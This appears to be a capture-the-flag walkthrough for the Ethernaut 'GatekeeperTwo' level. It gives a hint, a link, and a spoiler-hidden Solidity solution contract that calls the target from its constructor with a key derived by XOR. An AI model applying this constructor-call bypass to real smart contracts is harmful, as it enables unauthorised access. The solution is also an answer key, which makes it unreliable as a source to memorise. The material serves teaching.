 # GatekeeperTwo

**HINT:** Use the links give on the ```assembly``` and ```extcodesize``` to learn more. Along with reading through the info given [here.](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) It will really help you understand the mechanics of what happens when you create a contract and how operations work.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.4;

contract LetMeIn {
    constructor(address _addr) public {
        bytes8 key = bytes8( uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1) );
        _addr.call(abi.encodeWithSignature('enter(bytes8)', key));
    }
}
``` 
All you have to do is deploy with you instance address. Double check you are now the with entrant:
```js
await contract.entrant()
````